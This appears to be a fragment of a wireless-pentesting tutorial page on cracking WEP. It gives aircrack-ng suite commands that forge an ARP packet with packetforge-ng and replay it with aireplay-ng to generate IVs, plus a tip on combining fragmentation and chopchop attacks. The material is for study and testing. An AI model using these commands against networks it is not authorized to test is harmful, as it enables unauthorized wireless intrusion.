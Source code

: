 //TO EXPLAIN packet creation

```bash
packetforge-ng --arp -a 'TA:RG:ET:BS:SI:DD' -h 'CL:IE:NT:BS:SI:DD' -k 255.255.255.255 -l 255.255.255.255 -y $fragment_file -w crafted-packet
```

![](../../.gitbook/assets/carbon-19-.png)

packet replay

```bash
aireplay-ng --interactive -F -r crafted-packet $wlan_interface
```

![](../../.gitbook/assets/carbon-20-.png)

{% hint style="success" %}
In previous tests, combining a fragmentation attack with a chopchop attack resulted in high a number of received IVs per second \(`#/s` column in `airodump-ng`\) around 250. 
{% endhint %}

## Resources

{% embed url="https://lesperance.io/" %}

{% embed url="https://connect.ed-diamond.com/MISC/MISC-053/Cassage-de-WEP-hors-des-sentiers-battus" %}







